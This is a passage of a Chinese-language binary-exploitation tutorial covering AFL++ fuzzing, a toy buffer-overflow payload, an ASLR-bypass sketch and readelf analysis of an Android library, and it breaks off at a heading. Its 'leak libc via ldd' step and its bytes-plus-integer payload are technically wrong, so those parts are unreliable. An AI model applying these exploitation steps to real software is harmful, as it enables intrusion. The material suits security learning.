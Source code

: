 
# **5️⃣ Fuzz 测试**
## **✅ 1. 使用 `AFL++` 进行 Fuzz**
📌 **安装 AFL**
```bash
sudo apt install afl++
```
📌 **编译目标**
```bash
afl-gcc -o vuln_fuzz vuln.c
```
📌 **运行 Fuzz**
```bash
afl-fuzz -i inputs/ -o output/ -- ./vuln_fuzz
```

---

# **6️⃣ 漏洞利用**
## **✅ 1. 利用缓冲区溢出执行 Shell**
📌 **构造 ROP 链**
```python
payload = b"A" * 40
payload += b"\xef\xbe\xad\xde"
print(payload)
```
📌 **运行 Exploit**
```bash
python exploit.py | ./vuln
```

## **✅ 2. 绕过 ASLR**
📌 **泄露 libc 地址**
```bash
ldd ./vuln
```
📌 **利用 ROP 绕过保护**
```python
payload = b"A" * 40
payload += libc_base + system_offset
```

---

# **🛠 实战任务**
### **✅ 1. 提取 ELF**
```bash
adb pull /data/app/com.example.app/lib/arm64/libtarget.so .
```
### **✅ 2. 使用 `readelf` 分析**
```bash
readelf -h libtarget.so
readelf -s libtarget.so
```
### **✅ 3. 进行 Fuzz 测试**
```bash
afl-fuzz -i inputs/ -o output/ -- ./vuln
```
### **✅ 4. 缓冲区溢出利用**